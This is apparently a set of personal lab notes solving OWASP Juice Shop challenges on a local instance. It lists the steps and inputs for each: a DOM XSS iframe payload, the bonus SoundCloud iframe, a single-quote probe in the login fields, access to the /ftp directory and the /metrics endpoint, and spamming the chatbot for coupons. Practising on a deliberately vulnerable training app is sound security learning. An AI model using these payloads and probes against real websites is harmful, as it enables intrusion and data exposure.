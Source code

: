 # OWASP Juice Shop<br>

##Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br>

##Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupong <br>

##DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br>

##Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br>

##Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br>

##Error Handling<br>
Account Login > put ' in email and password fields<br>

##Exposed Metrics<br>
http://localhost:3000/metrics<br>
